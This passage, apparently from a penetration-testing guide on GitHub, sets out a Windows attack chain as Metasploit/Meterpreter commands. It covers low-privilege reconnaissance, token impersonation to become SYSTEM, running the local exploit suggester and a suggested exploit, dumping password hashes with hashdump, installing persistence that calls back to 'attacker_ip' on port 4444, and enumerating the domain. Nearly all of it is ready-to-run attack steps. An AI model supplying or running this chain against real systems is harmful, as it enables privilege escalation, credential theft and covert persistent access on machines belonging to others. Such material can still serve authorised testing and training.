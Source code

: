 **Common Causes:**
- WinRM service not properly configured
- Account lockout policy enabled
- Firewall blocking connections
- Wrong authentication method

---

## 🔗 Integration with Other Techniques

### **🎯 Complete Attack Chain: Initial Access → Privilege Escalation → Persistence**

#### **Phase 1: Starting from Low Privileges**
```bash
# After initial compromise (SMB, web shell, etc.)
meterpreter > getuid
# Current user: WORKSTATION\user1 (low privileges)

meterpreter > sysinfo
# Gather system information for escalation planning

# Document current access level
meterpreter > getprivs
# Note: Limited user privileges available
```

#### **Phase 2: Privilege Escalation Execution**
```bash
# Method 1: Try token impersonation first (fastest)
meterpreter > load incognito
meterpreter > list_tokens -u

# If tokens available
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"

# If no tokens, use automated suggester
meterpreter > background
use post/multi/recon/local_exploit_suggester
set SESSION 1
exploit

# Execute suggested exploit
use exploit/windows/local/[suggested_exploit]
set SESSION 1
exploit
```

#### **Phase 3: Post-Escalation Activities**
```bash
# Verify elevated access
meterpreter > getuid
# Expected: NT AUTHORITY\SYSTEM

# Dump system credentials
meterpreter > hashdump

# Install persistence mechanism
meterpreter > run persistence -S -U -X -i 5 -p 4444 -r attacker_ip

# Gather additional system information
meterpreter > run post/windows/gather/enum_computers
meterpreter > run post/windows/gather/enum_domain
```

